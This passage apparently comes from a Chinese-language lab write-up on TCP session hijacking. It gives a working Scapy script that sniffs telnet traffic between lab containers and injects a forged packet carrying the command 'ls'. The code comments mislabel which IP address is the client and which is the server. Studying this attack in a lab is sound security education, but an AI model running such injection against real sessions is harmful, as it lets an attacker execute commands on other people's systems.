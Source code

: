 ![image-20230417225003326](assets/image-20230417225003326.png)

### 4.3 Scapy 自动劫持

hijacking_auto_simple.py

```python
#!/usr/bin/python3
from scapy.all import *

client  = "10.9.0.3"   # Server IP
server  = "10.9.0.2"   # Client IP
PORT = 23             # Server telnet port

def spoof(pkt):
    old_ip  = pkt[IP]
    old_tcp = pkt[TCP]
    #############################################
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack, ack = old_tcp.seq + len(old_tcp.payload), flags = "A")
    data = "\rls\r"
    #############################################

    pkt = ip/tcp/data 
    send(pkt,verbose=0)
    ls(pkt)
    quit()

f = 'tcp and src host {} and dst host {} and src port {}'.format(server, client, PORT)
sniff(filter=f, prn=spoof, iface="br-6c895804349d")
```
